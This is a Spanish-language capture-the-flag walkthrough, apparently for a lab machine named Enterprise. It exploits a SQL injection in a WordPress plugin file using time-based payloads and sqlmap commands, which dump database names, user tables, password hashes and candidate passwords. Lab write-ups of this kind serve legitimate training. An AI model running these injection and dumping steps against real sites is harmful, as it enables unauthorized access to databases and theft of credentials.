 > lcars_db.php -> /GET "query" -> "SELECT ID FROM wp_posts WHERE post_name = $query"   
> lcars_dbpost.php -> "SELECT post_title FROM wp_posts WHERE ID = $query"   

Como lcars_dbpost.php tiene la linea ```$query = (int)$_GET['query'];``` no le valdran inyecciones. En cambio a la otra no hace eso.

----------------------

# Part 2: SQLi

Si ponemos ```http://enterprise.htb/wp-content/plugins/lcars/?query=1``` nos da 403 forbidden:  
```http://enterprise.htb/wp-content/plugins/lcars/lcars_dbpost.php?query=1``` -> "Hello world"   
```/wp-content/plugins/lcars/lcars_db.php?query=1``` ->  Error el parametro no se puede convertir en string   
```
1' and sleep(5)-- -  # nada, pero  1 and sleep(5)-- -  si va
1' or sleep(5)-- -   # nada
```
El script de blind sqli que se hizo en la máquina europa no funciona con esta. Tendrá una sqli muy rebuscada asi  que habrá que tirar de la trampa del sqlmap  
```console
#### BASES DE DATOS ####
└─$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch --dbs
# information_schema joomla joomladb mysql performance_schema sys wordpress wordpressdb

#### WORDPRESS ####
└─$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress --tables
# wp_commentmeta wp_comments wp_links wp_options wp_postmeta wp_posts wp_term_relationships wp_term_taxonomy wp_termmeta wp_terms wp_usermeta wp_users

└─$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress -T wp_users --dump
# william.riker@enterprise.htb -> william.riker -> $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2

└─$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress -T wp_posts --columns
# post_name, post_author, post_content

└─$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress -T wp_posts -C post_name,post_author,post_content --dump

#### JOOMLADB ####
└─$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D joomladb --tables
# edz2g_users

└─$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D joomladb -T edz2g_users --columns

└─$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D joomladb -T edz2g_users -C username,password --dump
#Guinan          | $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q
#geordi.la.forge | $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy

# Lo exporta todo en
└─$ cat /home/cucuxii/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv | sed 's/\\n/\n/g' | sed 's/\\r/\r/g' | grep "\S" --color=none
ZxJyhGem4k338S2Y
enterprisencc170
ZD3YxfnSjezg67JZ
u*Z14ru0p#ttj83zS6
```
Tendriamos 3 usaurios y 4 posibles contraseñas  
